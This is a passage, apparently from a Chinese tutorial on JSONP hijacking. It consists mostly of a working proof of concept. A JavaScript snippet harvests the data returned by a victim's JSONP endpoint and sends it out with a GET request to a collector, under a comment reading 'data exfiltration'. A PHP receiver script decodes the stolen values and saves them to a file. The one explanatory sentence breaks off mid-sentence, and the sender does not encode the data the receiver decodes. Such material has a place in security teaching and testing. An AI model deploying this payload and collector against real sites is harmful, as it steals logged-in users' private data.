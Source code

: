 ```html
            for (var key in v) {
                var a = key + ':' + v[key] + ' ,';
                h += a;
            }
            alert(h);

            // 数据外带
            $.get('http://localhost:3000/js_xss/value.php?value=' + h);
            // $.post('http://127.0.0.1:8080/1.html', { value: h });

        }

    </script>

   <!-- 访问页面  -->
    <script src="http://127.0.0.1:3000/js_xss/test.php?callback=testname&name=admin"></script>

</body>

</html>
```

程序员在开发jsonp接口的时候，其开发习惯就是这样的，jsonp接口通过一个参数（一般参数名都是callback），这个参数接收到的数据就会作为函数名被拼接成

接收脚本poc
```php
<?php

$value = $_GET['value'];

// $value=preg_replace('/,/', "\n", $value);

if ($value) {
    // 打开文件并获取文件句柄

    $file = fopen('value.txt', 'w+');
    if ($file) {
       // 写入数据
        $value=base64_decode($value);
        fwrite($file, $value);

        // 关闭文件
        fclose($file);

    } else {

        // 处理文件打开失败的情况
        error_log("Failed to open file: value.txt");

    }

} else {

    // 处理没有传入 value 参数的情况
    error_log("No value parameter provided");

}
```
